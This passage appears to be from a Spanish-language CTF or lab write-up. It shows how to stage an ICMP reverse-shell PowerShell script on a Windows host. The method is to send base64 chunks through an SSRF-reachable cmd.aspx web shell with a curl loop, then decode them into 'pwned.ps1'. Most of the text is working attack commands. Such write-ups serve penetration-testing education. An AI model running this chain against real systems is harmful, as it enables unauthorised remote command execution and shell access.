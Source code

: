 1. Modificamos todos los symbolos 
```bash
 + 
```
 por **%2B** y los symbolos 
```bash
 = 
```
 por **%3D**
1. Spliteamos el fichero en dimensiones de lineas iguales

    ```bash
    fold icmp.ps1.b64 > icmp
    ```

1. Nos creamos un script para automatizar el envio de cada linea del fichero

    ```bash
    #!/bin/bash

    function ctrl_c(){
        echo -e "\n\n[!] Saliendo...\n"
        exit 1
    }
    
    # Ctrl+C
    trap ctrl_c INT

    for line in $(cat icmp.ps1.b64); do
        command="echo ${line} >> C:\Temp\reverse.ps1"
        curl -s -v -X GET "http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx" --data-urlencode "xcmd=$command"
    done
    ```

1. Lanzamos el Script

    ```bash
    ./fileUpload.sh
    ```

1. Controlamos en la web si el fichero existe

    ```bash
    http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=type C:\Temp\reverse.ps1
    ```

    Vemos el status code a 0

1. Decodificamos desde la web el fichero que esta en base64
    
    - las etapas serian estas

        ```bash
        $file = Get-Content C:\Temp\reverse.ps1 
        $decode = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($file))
        $decode > C:\Temp\pwned.ps1
        ```
